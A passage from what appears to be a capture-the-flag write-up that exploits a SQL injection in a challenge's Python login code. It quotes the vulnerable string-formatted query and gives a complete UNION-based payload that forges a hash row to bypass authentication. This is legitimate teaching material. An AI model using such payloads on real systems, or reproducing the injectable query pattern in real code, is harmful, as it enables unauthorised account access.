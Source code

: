 Very useful! We can even expand the last entry in the traceback to see the surrounding code:

> File "/home/vault/vault/secretvault.py", line 58, in login
>     connection = sqlite3.connect(os.path.join(directoryFordata, 'clients.db'))
>     pointer = connection.cursor()
>  
>     search = """SELECT id, hash, salt FROM clients
>                WHERE clientname = '{0}' LIMIT 1""".format(clientname)
>     pointer.execute(search)
>  
>     res = pointer.fetchone()
>     if not res:
>         return "No such user in the database {0}!\n".format(clientname)
>     userID, hash, salt = res

Very clear SQL injection vulnerability. Unfortunately, it looks like the server first selects a row from the table based on `clientname`, then checks the `hash` + `salt` at a later point. No problem, we can use a SQL `UNION` statement to make our own login credentials. We make an informed guess that the hashing algorithm is SHA-256. It is not clear whether the salt is appended or prepended, so let's just not have any. We can find out the SHA-256 hash of a password of our choosing easily:

    $ python -c 'from hashlib import sha256; print sha256("foobar").hexdigest()'
    c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2

The full data that we'd like to have in the table is:

| `id` | `hash` | `salt` |
| --- | --- | --- |
| "0" | "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2" | "" |

We'll get to `id` later, so we put 0 for now (but the column type is still `VARCHAR(255)`). Knowing the query the server executes, we construct the following injection:

    ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 

So after Python formats the query string, the result is:

    SELECT id, hash, salt FROM clients WHERE clientname = ''
    UNION
    SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", ""

(Everything after is ignored due to the comment marker ` -- `.)

In other words, the server is looking for clients with `clientname` equal to the empty string, and concatenates the (non-existent) results of that query with our inline data.

To login:

> Username: ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 
> Password: foobar

It works, and we are greeted with the message:

    Welcome back valid user! Your digital secret is: "https://www.youtube.com/watch?v=dQw4w9WgXcQ" (Log out)

I'll let you guess what that video is. There is nothing else we can change in our login except for the `id` - it seems the server serves different "digital secrets" based on the `id` of the logged-in user. We can figure out the `id` for user `Goutham`, since the red herring comment hinted that `Goutham` knows the flag. Given that `id` is a `VARCHAR(255)`, the search space could be quite large, and we could use a character-by-character binary search. Luckily, it is a single digit.
